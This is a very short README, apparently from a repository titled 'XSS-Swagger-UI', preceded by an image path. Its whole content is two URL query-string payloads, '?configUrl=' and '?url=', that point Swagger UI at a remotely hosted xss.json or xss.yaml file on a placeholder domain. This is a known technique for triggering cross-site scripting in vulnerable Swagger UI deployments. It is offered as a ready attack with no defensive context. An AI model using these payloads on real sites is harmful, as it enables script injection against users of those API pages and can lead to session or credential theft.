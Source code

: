 # XSS-Swagger-UI
XSS For API Swagger UI 
?configUrl=https://<domain>/xss.json
?url=https://<domain>/xss.yaml
